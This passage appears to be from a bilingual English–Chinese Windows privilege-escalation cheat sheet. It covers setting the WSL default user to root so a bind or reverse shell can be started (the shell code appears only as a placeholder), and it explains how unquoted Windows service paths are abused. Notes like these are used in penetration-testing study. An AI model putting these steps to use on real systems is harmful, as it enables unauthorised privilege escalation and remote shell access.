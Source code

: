 
#### EoP - Windows Subsystem for Linux (WSL)

Windows子系统
```
# ---------------
# With root privileges Windows Subsystem for Linux (WSL) allows users to create a bind shell on any port (no elevation needed). 
# 使用root权限的Windows Subsystem for Linux（WSL）允许用户在任何端口上创建bind shell（无需权限提升）

# Don't know the root password? No problem just set the default user to root W/ .exe --default-user root.
# 不知道root的密码也没问题，只需将默认用户设置为root

# Now start your bind shell or reverse.
# 启动bind shell或 reverse shell


wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'


# 二进制bash.exe文件在C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe

# Alternatively you can explore the WSL filesystem in the folder 
# 或者，您可以在文件夹中浏览WSL的文件系统

C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\

```

#### EoP - Unquoted Service Paths

EoP - 不带引号的服务路径
```
# ---------------
# 原理:
# Abusing misconfigured services
# 滥用错误配置的服务

# The Microsoft Windows Unquoted Service Path Enumeration Vulnerability. 
# Microsoft Windows未加引号的服务路径枚举漏洞

# All Windows services have a Path to its executable. If that path is unquoted and contains whitespace or other separators, then the service will attempt to access a resource in the parent path first.
# 所有Windows服务都有一个可执行文件的路径。如果该路径未加引号并包含空格或其他分隔符，则服务将"首先"尝试访问父路径中的资源。


# 根据Windows处理CreateProcess这个API调用的方式来看，如果某个服务的"二进制文件的路径"没有用引号括起来，并且路径中有空白符号(空格等)或其他分隔符号，可能被用来提权。
# 参考https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createprocessa


# 例如 某个服务的二进制文件的路径为 C:\Program Files\sub dir\program name 可见这一路径没有被引号括住并且路径中含有空格 Windows尝试路径的顺序为：

C:\Program.exe
C:\Program Files\sub.exe
C:\Program Files\sub dir\program.exe
c:\program files\sub dir\program name.exe

# ---------------
```